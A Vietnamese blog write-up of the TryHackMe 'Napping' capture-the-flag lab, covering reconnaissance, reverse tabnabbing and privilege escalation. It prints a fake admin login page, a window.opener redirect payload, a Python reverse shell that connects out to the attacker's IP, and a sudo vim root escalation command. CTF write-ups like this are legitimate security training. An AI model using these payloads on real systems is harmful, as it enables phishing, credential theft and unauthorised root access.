 ---
title: "Napping"
description: "Ngay cả các Admin cũng có thể ngủ trong công việc!"
publishDate: 2025-09-12
tags: 
- TryHackMe
- CTF - Capture The Flag
- Challenges
- Privilege Escalation
draft: false
language: 'Việt Nam'
heroImage: { src: './thumbnail.png', color: '#0f87aa' }
---

## Thu thập thông tin

### Nmap scan

Thực hiện scan port, mình phát hiện 2 port đang mở là `ssh` và `http`.

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0) # [!code highlight:1]
| ssh-hostkey: 
|   3072 b4:7c:88:fd:ec:42:b4:a3:7f:16:19:bc:b1:5d:01:ca (RSA)
|   256 50:75:65:92:55:06:06:5e:00:8d:19:5b:e9:f0:15:72 (ECDSA)
|_  256 10:cc:c8:0f:99:0c:b2:29:03:e2:6d:a1:2c:69:89:b8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu)) # [!code highlight:1]
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set # [!code highlight:1]
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster scan

Dùng công cụ `gobuster` mình còn tìm ra được `/admin` nhưng không có quyền truy cập.

```shell
/admin                (Status: 301) [Size: 314] [--> http://10.201.102.54/admin/]
```

Nhưng bên trong `/admin` mình phát hiện một trang `login` dành cho `admin`.

```shell
/login.php            (Status: 200) [Size: 1158]
```

### Lỗ hổng target trên thẻ a

![img](imgs/1.png)

Truy cập vào website, mình được chuyển tới trang `login` của người dùng.

![img](imgs/2.png)

Mình đăng ký tài khoản và vào được một trang nếu mình nhập `url` và `submit`, nó sẽ xuất hiện một thẻ `a` chuyển hướng đến url đó.

![img](imgs/3.png)

Trang này còn nói rằng `Tất cả các link đều được review bởi admin, người dựng lên website này!`

Có một thông tin nho nhỏ mà thử thách này đưa ra.

> To hack into this machine, you must look at the source and focus on the target.

Nhìn kỹ vào mã nguồn thì `target='_blank'` chính là vấn đề.

![img](imgs/4.png)

Đây là thứ đã gây ra nhiều vụ lừa (phishing) bằng cách ấn vào link và chuyển hướng đến trang giả mạo.

Cụ thể kỹ thuật này sử dụng `window.opener.location = '<link web giả mạo>';`, khi trang đích chứa js này nó sẽ chuyển hướng trang gốc (cụ thể ở đây là trang chứa `target='_blank'`) sang link web giả mạo.

## Flag 1

### Truy cập người dùng daniel

Từ các thông tin thu thập được, mình copy source trang login của admin lúc nãy tìm được nhằm mục đích host một trang login giả mạo và lừa admin đăng nhập vào đây để lấy thông tin đăng nhập.

```html title="login.html"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>
<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>


        <form action="/admin/login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

Mình host thêm một trang để lừa admin bấm vào đây để chuyển hướng đến trang `login.html`.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Just...</title>
</head>

<body>
    Just nothing...
</body>
<script>window.opener.location = 'http://10.17.67.204:8000/login.html';</script>

</html>
```

Khi mình `submit` url `http://10.17.67.204/macilious.html`

Nếu admin truy cập vào url này, họ sẽ được chuyển tới trang chứa mã javascript của mình.

![img](imgs/7.png)

Và trang gốc của họ sẽ chuyển thành trang đăng nhập admin.

![img](imgs/8.png)

Đồng thời mình cũng bắt các gói tin trên mạng này, khi admin chỉ nghĩ vì một lý do nào đó mà họ bị đăng xuất nên họ thực hiện đăng nhập lại thì mình đã bắt được gói tin chứa thông tin đăng nhập.

![img](imgs/5.png)

Dùng thông tin đăng nhập này SSH vào người dùng `daniel` và mình tìm thấy flag tại thư mục `home` của người dùng `adrian` nhưng không có quyền truy cập.

![img](imgs/10.png)

Mình có quyền sửa file `query.py` vì thuộc group `administrators` và file này có chức năng kiểm tra trạng thái website và ghi vào file `site_status.txt`.

```python
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

Dựa vào nội dung file `site_status.txt` thì đây là một `crontab` được thực hiện mỗi 1 phút

![img](imgs/11.png)

### Truy cập người dùng adrian và flag

Từ đó mình có thể dựa vào file này để mở một `reverse shell`.

Mình thay đổi nội dung file như sau:

```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.17.67.204",7304))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

Sau đó mình mở `netcat` listener tại port `7304`, đợi 1 phút để máy thực thi file kết nối và mình đã đọc được flag.

![img](imgs/12.png)

## Flag 2

Mình `stabilizing` shell để linh hoạt hơn.

![img](imgs/13.png)

### Sudo Misconfiguration (Vim)

Kiểm tra với lệnh `sudo -l` mình thấy người dùng này có thể sử dụng `vim` với quyền sudo không cần mật khẩu.

![img](imgs/14.png)

Để khai thác, tại [gtfobins](https://gtfobins.github.io/gtfobins/vim/) có hướng dẫn có thể dùng `vim` để thực thi code `python`.

### Truy cập người dùng root và flag

Với lệnh `vim -c ':py3 import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` mình đã có thể leo thang đặc quyền lên `root` và tìm được flag tại thư mục `/root`.

![img](imgs/15.png)